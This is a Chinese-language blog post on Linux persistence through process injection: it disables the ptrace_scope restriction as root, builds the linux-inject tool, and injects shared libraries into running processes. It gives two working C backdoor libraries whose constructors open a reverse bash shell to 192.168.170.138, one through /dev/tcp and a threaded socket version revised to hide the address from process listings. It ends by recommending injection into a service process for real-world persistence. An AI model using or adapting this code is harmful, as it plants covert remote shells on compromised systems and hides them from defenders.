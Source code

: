 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。
title: Linux权限维持之进程注入
url: /archivers/2020-01-01/2
---
```


## 说明

通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。进程注入通过调用`ptrace()`实现了与Windows平台下相同作用的API 函数`CreateRemoteThread()`。在许多Linux发行版中，内核的默认配置文件`/proc/sys/kernel/yama/ptrace_scope`限制了一个进程除了`fork()`派生外，无法通过`ptrace()`来操作另外一个进程。

要注入进程前，需要关闭这个限制（Root权限）：

```echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope```

![2020-01-03-13-10-44](../../../static/images/7d2bcefa-4f5f-11ec-812b-00d861bf4abb.png)

在Github上已经有了关于进程注入的实现代码：`https://github.com/gaffe23/linux-inject`

下载后进入项目目录，执行：make x86_64 即可编译64位的linux-inject。



![2020-01-03-13-10-54](../../../static/images/7d6a2c90-4f5f-11ec-9773-00d861bf4abb.png)


确认编译是否正常：

![2020-01-03-13-11-04](../../../static/images/7da8298c-4f5f-11ec-9dfb-00d861bf4abb.png)

获取sample-target的PID后，调用inject程序来注入sample-library.so，注入成功会输出“I just got loaded”。
接下来，需要更改sample-target.c文件，编译成需要的权限维持动态链接库。


```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>


void shell()
{
	printf("I just got loaded\n");
    system("bash -c \"bash -i >& /dev/tcp/192.168.170.138/139 0>&1\"");
   
}


__attribute__((constructor))
void loadMsg()
{
   shell();
}

```

通过如下命令编译so文件：

```
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o u9.so -lpthread -fPIC U3.c

```

![2020-01-03-13-11-16](../../../static/images/7deb9a0a-4f5f-11ec-9a01-00d861bf4abb.png)


编译成so文件成功后的测试效果：

![2020-01-03-13-11-27](../../../static/images/7e2a248c-4f5f-11ec-b266-00d861bf4abb.png)

在Kali Linux这边获得了bash shell：

![2020-01-03-13-11-47](../../../static/images/7e6241aa-4f5f-11ec-af1a-00d861bf4abb.png)

此时发现测试程序的主线程被bash阻塞了，于是可以采用多线程技术，将后门代码与正常逻辑分离执行。

![2020-01-03-13-11-58](../../../static/images/7e9c6b50-4f5f-11ec-b656-00d861bf4abb.png)

但利用这种方式在执行的过程中，查看进程参数还是会被查看到IP地址和端口：

![2020-01-03-13-12-09](../../../static/images/7ed600f4-4f5f-11ec-969b-00d861bf4abb.png)

查看到IP与端口：

![2020-01-03-13-12-19](../../../static/images/7f1565dc-4f5f-11ec-bacf-00d861bf4abb.png)

再继续改进代码，采用socket套接字的方式来反弹shell：

```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>


static void * hello()
{

    struct sockaddr_in server;
    int sock;
    char shell[]="/bin/bash";
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return NULL;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(139);
    server.sin_addr.s_addr = inet_addr("192.168.170.138");
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
        return NULL;
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/bash",(char *)0);
    close(sock);
	printf("I just got loaded\n");
    return NULL;
}

__attribute__((constructor))
void loadMsg()
{
    pthread_t thread_id;
    pthread_create(&thread_id,NULL,hello,NULL);
}


```


执行效果：

![2020-01-03-13-12-35](../../../static/images/7f567f90-4f5f-11ec-bb46-00d861bf4abb.png)


Kali Linux获得bash shell：

![2020-01-03-13-12-46](../../../static/images/7f96bea2-4f5f-11ec-8151-00d861bf4abb.png)

在实战应用中，需要关闭ptrace的限制，然后注入.so到某个服务进程中，这样达到权限维持的目的。


